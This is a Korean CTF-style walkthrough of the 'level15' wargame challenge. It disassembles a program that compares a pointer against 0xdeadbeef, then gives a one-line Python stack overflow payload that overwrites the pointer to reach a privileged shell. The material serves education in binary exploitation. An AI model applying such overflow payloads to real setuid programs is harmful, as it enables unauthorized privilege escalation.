



# level 15

* id : `level15`
* pw : `guess what`



이번엔 저 check의 포인터가 가르키는 곳까지 도달을 하거나, 강제로 리턴주소를 돌려 쉘을 켜야한다.

```python
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38                     # 총 할당받은 버퍼들(0x38 == 56)
0x08048496 <main+6>:    sub    esp,0x4
0x08048499 <main+9>:    push   ds:0x8049664                 # stdin
0x0804849f <main+15>:   push   0x2d                         # 0x2d == 45
0x080484a1 <main+17>:   lea    eax,[ebp-56]                 # 배열 위치 [ebp-56]
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   mov    eax,DWORD PTR [ebp-16]       # check 변수의 위치 [ebp-16]
0x080484b0 <main+32>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080484b6 <main+38>:   jne    0x80484dd <main+77>
0x080484b8 <main+40>:   sub    esp,0x8
0x080484bb <main+43>:   push   0xc18
0x080484c0 <main+48>:   push   0xc18
0x080484c5 <main+53>:   call   0x8048380 <setreuid>
0x080484ca <main+58>:   add    esp,0x10
0x080484cd <main+61>:   sub    esp,0xc
0x080484d0 <main+64>:   push   0x8048548
0x080484d5 <main+69>:   call   0x8048340 <system>
0x080484da <main+74>:   add    esp,0x10
0x080484dd <main+77>:   leave
0x080484de <main+78>:   ret
0x080484df <main+79>:   nop
```

너무나 쉽게 `buf`의 주소가 `[ebp-56]` 이고 `check` 의 주소가 `[ebp-16]` 임을 알았다. 즉 `[ebp-16]`에 `deadbeef`만 채워주면 된다.

하지만 여기서 DWORD PTR `[ebp-16]`, 즉 `*check` 가 [ebp-16] 이므로, 결론적으로 저기에 `deadbeef` 값을 덮어씌워도 `0xdeadbeef`라는 주소에만 접근 시도를 할 뿐이지 if 문이 진행되진 않는다.

그렇다면, 저 프로그램 내에서 `deadbeef`값이 들어있는 주소를 찾아 그걸 `*check`에 할당시키면 된다.



`0xdeadbeef` 가 포함된 주소는 `0x080484b2`임을 확인했다. 넣어주면 된다.

```bash
(python -c 'print "A"*(40) + "\xb2\x84\x04\x08"'; cat) | ./attackme
```



GG!